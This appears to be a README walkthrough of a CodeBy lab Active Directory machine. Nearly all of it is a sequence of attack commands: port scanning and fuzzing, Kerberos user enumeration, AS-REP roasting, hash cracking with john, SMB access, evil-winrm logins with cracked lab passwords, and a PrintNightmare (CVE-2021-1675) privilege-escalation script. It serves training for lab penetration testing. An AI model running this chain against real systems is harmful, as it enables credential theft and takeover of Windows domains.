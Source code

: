 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9b1a1fa1-3977-465a-936d-aabb7f6ec6b1)
```
nmap -p- 192.168.2.5 -v -sC -sV -sT
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dc38f948-3fbc-41eb-b06d-d646b90d74f6)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c0709d19-35c3-467f-9171-a6d9ca956d2b)
```
ffuf -u http://192.168.2.5/FUZZ -w /home/kali/PayloadsAllTheThings/payloads/owasp/dirbuster/directory-list-2.3-medium.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/02645807-6241-44a2-b4be-3a669b84d2d3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ae52dfd7-4a15-4c67-880f-f50fbd7c42b8)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b628ccdc-b505-40d4-86b4-c505a90cb525)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.5 user.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/48a61bd2-5566-4a3b-86d6-e86e199ed03c)
```
impacket-GetNPUsers codeby.cdb/ -dc-ip 192.168.2.5 -usersfile user.txt -format hashcat -outputfile user-hashes.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3274c1ab-228c-432f-afaf-0f2b3b95b055)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt user-hashes.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c3dbbd25-a7cb-4df1-90cf-306ec7ee6856)
```
smbmap -u "a.fedotov" -p "PASS" -d codeby.cdb -H 192.168.2.5
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec7ae321-e8f1-4620-8c10-b6059add3170)
```
smbclient '//192.168.2.5/Andrey Fedotov' -U a.fedotov
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7e7ee330-c368-4a6c-9f74-dc08b3263b32)

```
enum4linux-ng 192.168.2.5 -u 'a.fedotov' -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2c99b7f1-94f0-475d-8163-bb398f225231)
```
impacket-GetNPUsers codeby.cdb/ -dc-ip 192.168.2.5 -usersfile user.txt -format hashcat -outputfile user-hashes2.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4e580e62-e0b0-4c19-a4e2-0c6d93dc0779)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt user-hashes2.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/961ca617-e8f4-4f80-a8ef-1b5c6ab3a47d)
```
ftp 192.168.2.5
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4aa11a82-f7e6-49a3-ab91-df3ebc06c77e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/09cc4099-1f7d-4b89-b59c-56ec21b93e1d)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bcebecdd-854c-4aae-af9d-034f71a1bcbb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1251600a-39ab-4315-9d57-e014e0e2602b)

```
evil-winrm -i 192.168.2.5 -u USER -p PASS
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7c5c2b56-e8c4-4062-818f-2cb63ecd0891)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/51d9aca1-e732-4fd1-b8da-0c5079401611)

https://medium.com/@joemcfarland/printnightmare-privilege-escalation-63bc5e531960

https://github.com/calebstewart/CVE-2021-1675/blob/main/CVE-2021-1675.ps1
```
evil-winrm -i 192.168.2.5 -u o.smolkov -p Never_Forget! -s /home/kali/CodeBy/AD/Revol/sc/
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/14f9572f-edb0-4706-96b5-fad72b959159)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/72b079d3-33fe-437f-b933-abcba45012c8)
```
evil-winrm -i 192.168.2.5 -u adm1n -p P@ssw0rd
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/480dacf3-fd52-4b2c-907f-dc7e96744c1e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b09a9616-4848-4fd3-bd43-634c15812e51)
